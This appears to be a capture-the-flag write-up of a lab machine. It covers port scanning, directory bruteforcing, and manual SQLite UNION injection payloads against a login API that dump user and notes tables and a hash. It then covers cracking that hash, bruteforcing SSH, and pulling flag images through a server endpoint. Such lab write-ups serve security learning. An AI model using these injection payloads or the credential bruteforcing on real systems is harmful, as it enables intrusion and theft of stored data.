# Port Scanning
```bash
❯ rustscan -a 10.49.140.18 -- -A

Open 10.49.140.18:22
Open 10.49.140.18:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDP/bNr/nN/6PCa1yFPjA11XH0aZeVg2OMFGyxF3iCBim97a/vA33LYCnDGh7jjSP+wEzu2Xh6whOuRU147tRglKgXMVqMx7GIfBKp92pPnePbCQi6Qy9Sp1hJCIK9Ik2qzYbVOHr6vSJVRGKdZuCDrqip67tHPJSqtDKvuTS8PTcWav17y0IhBrcU2KoGptwml4I/j3RO/aVYblAEKMH0tn9vy59tokTm0CoPXjZCH7KJfL87YAdyacAA6FB2DIFEupf56qGoGNUP9v7AMaF6Uj/5ywDduik/YOdvBR7AVlX2IOaAu4yLRWIh9S4XvlzCB3N+UyQmXRKSzcSyhKXIRJYidCs0SwhCTF+umbmtMAfHghLBz4pkLbhbqrVqkf0GA8wKyG9rX6LSUl6/SwhtAeFPIQxnnP6OHxrcKHy4BooCVNpur5fkioel5VHO90cK0xzlPWGJ8P4HOnDRmLWpyBAmmPjY8BHNB4rLccZLz1e648h7Zs9sFvhjJD8ONgW0=
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH7P2OEvegGP6MfdwJdgVn3xIYEH6LXyzBs5hQ5fPpMZDZdHo5a6J2HR+KShaslzYk83WGNBSJt+hQUGv0Kr+Hs=
|   256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN0pHtBDjHWNJSlxl5M/LfHJztN6HJzi30Ygi1ysEOJN
80/tcp open  http    syn-ack ttl 62 nginx 1.14.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.1
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (91%), Linux 4.15 (90%), Linux 3.10 - 3.13 (88%), Crestron XPanel control system (86%), Amazon Linux AMI 2018.03 (Linux 4.14) (85%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), Linux 5.14 - 6.8 (85%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
```
I visited the webpage first but nothing I found also nothing on `robots.txt`  <br/>
So performed directory bruteforcing. <br/>
 <br/>
Visiting the `/info` page I have found: <br/>
 <br/>
log in with username and password. <br/>
So I post request to `/api/login` with parameter `username` and `password`. <br/>
 <br/>
Found SQLI. First I tried with sqlmap. But didn't get any data. So I tried manully.
##### VERSION
It says that it is sqlite3 database. <br/>
```tst
admin' UNION SELECT 1,sqlite_version(); -- -&
```
 <br/>
##### Tables
```txt
admin' UNION SELECT 1,tbl_name FROM sqlite_master; -- -&
```
 <br/>
##### Columns of users table
```txt
admin' union select 1, MAX(sql) FROM sqlite_master WHERE tbl_name='users'; -- -&
```
 <br/>
##### Dump of users table\
```txt
admin' union select username,password FROM 'users'; -- -&
```
 <br/>
I collected the usernames. <br/>
##### Columns of notes table 
```txt
admin' union select 1, MAX(sql) FROM sqlite_master WHERE tbl_name='notes'; -- -&
```
 <br/>
##### Dump of note table 
```txt
admin' union select user_id,notes FROM 'notes'; -- -&
```
 <br/>
Found a hash. Using crackstation I decrypted the hash. <br/>
 <br/>
Now using the collected usernames and this password I bruteforced ssh. And found the valid login credentials <br/>
 <br/>
Using the credentials I logged in as `mary_ann`. <br/>
 <br/>
There is a note from server. <br/>
 <br/>
At `/opt/unstabletwin` directory I found the server files. <br/>
 <br/>
At `main_5001.py` I have found anather endpoint `/get_image`.  <br/>
 <br/>
Using this endpoint I downloaded all the five images. <br/>
```bash
curl -s http://10.49.140.18/get_image --get -d "name=mary_ann" -o mary_ann.jpg

curl -s http://10.49.140.18/get_image --get -d "name=vincent" -o vincent.jpg

curl -s http://10.49.140.18/get_image --get -d "name=julias" -o julias.jpg

curl -s http://10.49.140.18/get_image --get -d "name=marnie" -o marnie.jpg

curl -s http://10.49.140.18/get_image --get -d "name=linda" -o linda.jpg
```
 <br/>
From `mary_ann.jpg` I found  <br/>
 <br/>
From other images I found: <br/>
 <br/>
I arranged them in rainbow order. <br/>
 <br/>
Then I decrypt the found text. and found the final flag. <br/>
 <br/>